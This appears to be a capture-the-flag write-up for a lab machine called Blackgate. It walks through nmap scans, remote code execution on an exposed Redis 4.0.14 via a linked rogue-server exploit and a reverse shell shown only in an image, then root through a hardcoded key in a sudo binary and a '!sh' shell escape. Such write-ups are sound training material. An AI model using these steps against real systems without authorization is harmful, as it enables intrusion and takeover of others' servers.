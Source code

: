 # Blackgate

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.176
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:04 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
6379/tcp open  redis
```

Only Redis. We can do a detailed scan for this port.&#x20;

```
$ sudo nmap -p 6379 -sC -sV -O -T4 192.168.197.176                                 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 23:05 +08
Nmap scan report for 192.168.197.176
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 4.0.14
```

### Redis RCE

This version of Redis is vulnerable to the Redis Rogue Server exploit:

{% embed url="https://github.com/n0b0dyCN/redis-rogue-server" %}

<figure><img src="../../../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

Getting a reverse shell via a bash one-liner is trivial:

<figure><img src="../../../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Redis-Status

We had some `sudo` privileges as this user:

```
prudence@blackgate:/tmp$ sudo -l
Matching Defaults entries for prudence on blackgate:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

I did some basic enumeration of this binary, such as running `strings`:

```
prudence@blackgate:~$ strings /usr/local/bin/redis-status
/lib64/ld-linux-x86-64.so.2
gets
puts
printf
stderr
system
fwrite
strcmp
__libc_start_main
libc.so.6
GLIBC_2.2.5
__gmon_start__
H=X@@
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
```

There is a password within it. When we run the binary and supply the password, we get this 'terminal' thing:

<figure><img src="../../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

This output looks a bit like `less`, so I tried to escape this limited shell with `!sh` and it worked.

<figure><img src="../../../.gitbook/assets/image (168).png" alt=""><figcaption></figcaption></figure>

Rooted!
